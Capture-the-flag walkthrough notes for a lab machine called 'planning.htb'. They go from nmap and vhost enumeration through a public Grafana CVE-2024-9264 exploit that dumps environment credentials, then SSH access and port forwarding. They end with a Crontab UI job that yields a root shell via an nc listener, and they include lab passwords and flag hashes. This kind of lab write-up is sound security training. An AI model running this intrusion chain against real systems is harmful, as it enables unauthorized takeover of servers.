

# 10.10.11.68

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-18 09:46 EDT
Nmap scan report for 10.10.11.68
Host is up (0.024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62fff6d4578805adf4d3de5b9bf850f1 (ECDSA)
|_  256 4cce7d5cfb2da09e9fbdf55c5e61508a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### FootHold
- starting with - `admin:0D5oT70Fq13EvB5r`
- we cant ssh into the machine using `admin`
- no login page on the webapp to use `admin`
- no subdomains found
- trying vhosts
    - `gobuster vhost -u http://planning.htb -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt  --append-domain`
    - `grafana.planning.htb`
    - add to `/etc/hosts` 
- we can login and see that the version is Grafana v11.0.0
- Use https://github.com/nollium/CVE-2024-9264
- seem to be using root but the user/root dont have ssh files.
- tried adding SSH key to /root
    - `ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N "" -C "root@host"`
- this does not work
- enumerating further it looks like we are inside a docker container
- `./run.sh` is fetching env variables.
- `grafana/bin/python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "env" http://grafana.planning.htb/` gives the env variables
    - there is a gf admin user and password = `enzo:RioTecRANDEntANT!`
- `ssh enzo@planning.htb`
    - get user.txt - e8b9688f058cc9c6edd01a6ba2178deb


### Privesc
- running linpeas didnt give a lot
- `/var/www` doesnt have anything new
- `/etc/nginx/sites-enabled/` shows that there are 2 sites
    1. the main site on port 80
    2. grafana on 80 forwarded to port 3000
- `netstat -tunlp | grep LISTEN` shows that 8000, 3306, 43351 are also listening
- 3306 is db related.
- on target - `curl -I http://localhost:43351` gives 404
- on target - `curl -I http://localhost:8000` gives 401 and requires basic auth
- `/opt` has `containerd & crontabd` 
- no access to `containerd` but `crontabd` has a db file which mentions a password
- `ssh -L 8000:localhost:8000 enzo@planning.htb` - Local port forwarding
- on kali - `localhost:8000`
    - we have 3 known usernames - `admin, enzo, root`
    - we have 3 known passwords to try
    - `root:P4ssw0rdS0pRi0T3c` gives us access.
- Crontab UI dashboard shows the 2 scripts in the crontab.db
- Add a new job

- start a nc listener and then run the job
- get root shell and root.txt - 5dae76b6ab8df69502c123ddb7f1096b
